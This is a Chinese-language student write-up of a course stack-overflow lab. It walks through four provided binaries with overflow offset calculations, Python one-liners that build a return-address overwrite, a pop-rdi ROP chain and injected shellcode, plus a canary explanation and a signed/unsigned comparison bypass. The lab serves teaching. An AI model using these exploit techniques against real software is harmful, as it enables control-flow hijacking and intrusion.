




# 栈溢出攻击实验

## 题目解决思路
本实验的核心目标是在只给定ELF可执行文件，且输入来自文件的条件下，通过静态反汇编与必要的动态调试，定位漏洞点并构造输入，使程序进入题目预设的“成功路径”，打印通关提示或调用特定函数。整体流程大概为“定位输入 → 定位危险拷贝 → 计算覆盖偏移 → 选择可行利用方式 → 复现与截图”。不能盲目堆gadget，先把每题的约束条件像NX、长度、栈地址变化、canary等等明确，再选择最小可行的利用链路，用反汇编与gdb证据支撑结论。

### Problem 1: 
- **分析**：
problem1的漏洞在函数func：
```c
lea rax, [rbp-0x8]   ; 局部缓冲区 buf 起始
call strcpy          ; strcpy 不做长度检查
```

buf在 rbp-0x8，大小为 8 字节，但 strcpy 可写入任意长输入，就可以覆盖 saved rbp 和 retaddr。
从 buf 起始到返回地址的栈布局为：
```c
buf 8B
saved rbp 8B
retaddr 8B
```
所以覆盖到返回地址的偏移是16 字节。我将返回地址覆盖为func1 的地址就劫持了控制流。
- **解决方案**：
目标是让程序返回到func1（地址 0x401216）。
payload：
```c
padding：b"A"*16
retaddr：0x401216（小端 8 字节）
```

生成ans1.txt：
```c
python3 -c 'import struct; open("ans1.txt","wb").write(b"A"*16 + struct.pack("<Q", 0x401216))'
```

运行：
```c
./problem1 ans1.txt
```

- **结果**：



### Problem 2:
- **分析**：
README里面提示了该题NX enabled，因此不能栈上注入代码执行，需要用ROP，利用程序内部的代码片段小gadget。
本题目标输出为：Yes!I like ICS! 
在反汇编中可见目标函数func2（地址 0x401216）检查参数 edi是否等于0x3f8：

```c
cmp DWORD PTR [rbp-0x4], 0x3f8
je  <success>
```

因此需要构造 ROP,把rdi设为0x3f8，再跳到func2。
通过搜索可找到pop rdi指令位置,并确认其后紧跟ret形成pop rdi; ret gadget。
- **解决方案**：
ROP 链结构：

1.padding（覆盖到返回地址）
2.pop rdi; ret gadget 地址
3.参数 0x3f8
4.func2 地址 0x401216

生成方式与第一题一致：
```c
python3 -c 'import struct; open("ans2.txt","wb").write( b"A"*16 + struct.pack("<Q", 0x4012c7) + struct.pack("<Q", 0x3f8) + struct.pack("<Q", 0x401216) )'
```


运行：
```c
./problem2 ans2.txt
```
- **结果**：


### Problem 3: 
- **分析**：
题目条件：注意可用字节长度与栈地址变化、可以在gdb下验证或选择关闭内核全局栈随机化、目标输出幸运数字114。
漏洞函数 func：
```c
sub rsp, 0x30
lea rax, [rbp-0x20]    ; buf 起始
mov edx, 0x40          ; memcpy 复制 0x40 字节
call memcpy
```
buf实际只有 0x20（32）字节，但 memcpy 固定复制 0x40（64）字节，发生溢出并覆盖返回地址。
从 buf 到返回地址的偏移：
```c
buf 0x20
saved rbp 0x8
```
=> retaddr 偏移 = 0x28（40）字节

注意到这道题提供了栈跳转积木函数 jmp_xs：
```c
mov rax, [saved_rsp]
add rax, 0x10
jmp *rax
```
而在 gdb 中可观察到：
```c
saved_rsp = rsp（func 开头保存）
saved_rsp + 0x10 == rbp - 0x20，恰好是 buf 起始地址
```
因此只需把返回地址覆盖为 jmp_xs，程序就会自动跳到 buf 开头执行,这样就无需知道具体栈地址，绕开了栈地址变化影响。
目标函数 func1 检查 edi == 0x72（114），满足就打印 Your lucky number is 114。
所以我的策略是在 buf 开头注入一段极短机器码，设置 edi=0x72，调用 func1；然后把返回地址覆盖成 jmp_xs 让控制流回跳到 buf 执行。
- **解决方案**：
注入代码放在 buf开头：
```c
mov edi, 0x72 ：bf 72 00 00 00
mov rax, 0x401216（func1 地址）
call rax
```
填充到 40 字节（0x28）覆盖到 retaddr
retaddr 写 jmp_xs 地址 0x401334，回跳到 buf 开头执行
生成 ans3.txt：
```c
python3 -c 'import struct; sc=b"\xbf\x72\x00\x00\x00"+b"\x48\xb8"+struct.pack("<Q",0x401216)+b"\xff\xd0"; payload=sc.ljust(0x20,b"\x90")+b"B"*8+struct.pack("<Q",0x401334)+b"C"*(0x40-0x20-8-8); open("ans3.txt","wb").write(payload)'
```
运行：
```c
./problem3 ans3.txt
```
- **结果**：


### Problem 4: 
- **分析**：
栈canary本质是在函数栈帧中插入一个随机值，函数返回前校验该值是否被覆盖：
若溢出覆盖了返回地址，也会破坏 canary，此时校验失败就调用 __stack_chk_fail 终止程序，阻止劫持控制流

problem4的 func 里canary序列如下：
1、函数序言：读取 TLS 的 canary（fs:0x28）并保存到栈上
```c
136c: mov rax, QWORD PTR fs:0x28
1375: mov QWORD PTR [rbp-0x8], rax
```

2、函数尾声：取出栈上保存值，与当前 fs:0x28 做差，若不相等则失败
```c
140a: mov rax, QWORD PTR [rbp-0x8]
140e: sub rax, QWORD PTR fs:0x28
1417: je  <ok>
1419: call __stack_chk_fail@plt
```

汇编里canary保护的体现即为fs 段取 canary，存栈，返回前比较，不一致调用fail。

另外，这道题还提示“你真的需要写代码吗”，因此实际通关不靠溢出，而是利用整数符号或无符号比较。
func中存在jae，无符号比较跳转，当输入为-1时，在32位无符号下等于0xFFFFFFFF = 4294967295，会被判为足够大，走到成功分支并输出通关提示。
- **解决方案**：
不需要构造二进制payload文件，直接在交互里输入-1即可。
运行：
```c
./problem4
```
在提示处输入：-1
- **结果**：

## 思考与总结
一、从“直接 ret2func”到“ROP”再到“栈回跳代码注入”：
Problem1：无保护，典型覆盖 retaddr 直接跳目标函数。
Problem2：NX enabled，无法栈上执行代码，必须用pop rdi; ret 等 gadget进行传参再跳转。
Problem3：通过 jmp_xs设计，避免依赖具体栈地址。payload 受限64 字节，因此需极短 shellcode。

二、canary 的意义：
canary把覆盖retaddr 的行为变成先触发校验失败崩溃，显著提高了简单栈溢出利用难度。在汇编中表现为fs:0x28 读写与 __stack_chk_fail 调用。

三、安全编程启示：
strcpy/memcpy这类函数若缺少边界检查极易造成溢出。
条件分支使用jae/jb 等无符号跳转时，必须确认变量类型、符号语义一致，否则会出现-1 变成超大正数的逻辑漏洞。


## 参考资料
1、实验说明 README
2、老师PPT
3、gdb对四个二进制的反汇编与动态调试输出
4、CTF Wiki - Stack Overflow
